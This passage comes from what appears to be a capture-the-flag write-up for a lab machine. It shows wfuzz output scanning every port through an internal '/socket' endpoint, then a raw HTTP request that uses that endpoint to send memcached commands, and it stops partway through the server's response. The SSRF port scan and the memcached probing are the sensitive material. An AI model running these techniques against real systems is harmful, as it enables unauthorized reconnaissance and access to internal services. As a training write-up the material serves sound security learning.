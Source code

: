 ```

Target: http://10.10.10.86:8080/socket?port=FUZZ&cmd=test
Total requests: 65535

==================================================================
ID   Response   Lines      Word         Chars          Payload    
==================================================================

000022:  C=200     28 L	      55 W	    629 Ch	  "22"
000021:  C=200     28 L	      61 W	    627 Ch	  "21"
000080:  C=200     40 L	      84 W	   1010 Ch	  "80"
008080:  C=200     40 L	      84 W	   1010 Ch	  "8080"
011211:  C=200     27 L	      52 W	    576 Ch	  "11211"
042998:  C=200     27 L	      52 W	    574 Ch	  "42998"
053776:  C=200     27 L	      52 W	    574 Ch	  "53776"

Total time: 863.5118
Processed Requests: 65535
Filtered Requests: 65528
Requests/sec.: 75.89357
```

There are a few extra ports listed here that were not picked up by our nmap scan. After doing some research we determine that the port 11211 is used by a service called [memcached](https://docs.oracle.com/cd/E17952_01/mysql-5.0-en/ha-memcached-interfaces-protocol.html). The documentation gives us a guide on the commands we can use to communicate with memcache.

A typical request might look like (see cmd below in request)
```
GET /socket?port=11211&cmd=stats%20slabs HTTP/1.1
Host: 10.10.10.86:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.86:8080/socket?port=11211&cmd=GET
Connection: close
Cookie: session=eyJ1c2VybmFtZSI6ImRlZmF1bHQifQ.Dwhn5A.pBWBUGDT6_X_WtOHeo_5ZYXv7Nc; password=secret
Upgrade-Insecure-Requests: 1
```

and we get the response:
```
HTTP/1.1 200 OK
Server: nginx/1.10.3 (Ubuntu)
Date: Sat, 29 Dec 2018 03:27:33 GMT
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 1376
 
<!DOCTYPE html>
<html lang="en">
<head>
<title>Internal Dev</title>
    <meta charset="UTF-8">
    <meta name="viewport" content="initial-scale=1, maximum-scale=1, user-scalable=no, width=device-width">
</head>
<body>
<div class="container wrapper">
 
<p>Status of cache engine: Online</p>
<h4>TCP socket test</h4>
<form action="/socket">
<input type="text" name="port" placeholder="TCP port"></input>
```